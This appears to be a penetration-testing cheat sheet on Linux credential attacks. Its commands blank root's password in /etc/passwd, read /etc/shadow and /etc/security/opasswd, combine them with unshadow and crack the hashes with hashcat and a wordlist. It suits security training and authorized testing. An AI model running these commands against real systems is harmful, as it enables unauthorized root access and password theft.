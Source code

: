 # Passwd File
#### Editing /etc/passwd - Before
```shell
root:x:0:0:root:/root:/bin/bash
```
#### Editing /etc/passwd - After
```shell
root::0:0:root:/root:/bin/bash
```
#### Root without Password
```shell
head -n 1 /etc/passwd

root::0:0:root:/root:/bin/bash
```
# Shadow File
#### Shadow Format

| **Username** | **Encrypted Password** | **Last PW Change** | **Min. PW Age** | **Max. PW Age** | **Warning Period** | **Inactivity Period** | **Expiration Date** | **Unused** |
|--------------|------------------------|--------------------|-----------------|-----------------|--------------------|-----------------------|---------------------|------------|
| cry0l1t3     | $6$wBRzy$...SNIP...x9cDWUxW1 | 18937              | 0               | 99999           | 7                  | :                     | :                   | :          |
#### Shadow File
```shell
sudo cat /etc/shadow
```
# Opasswd
```shell
sudo cat /etc/security/opasswd

cry0l1t3:1000:2:$1$HjFAfYTG$qNDkF0zJ3v8ylCOrKB0kt0,$1$kcUjWZJX$E9uMSmiQeRh4pAAgzuvkq1
```
# Cracking Linux Credentials
#### Unshadow
```shell
sudo cp /etc/passwd /tmp/passwd.bak 
sudo cp /etc/shadow /tmp/shadow.bak 
unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes
```
#### Hashcat - Cracking Unshadowed Hashes
```shell
hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked
```
#### Hashcat - Cracking MD5 Hashes
```shell
cat md5-hashes.list
```

```shell
hashcat -m 500 -a 0 md5-hashes.list rockyou.txt
```

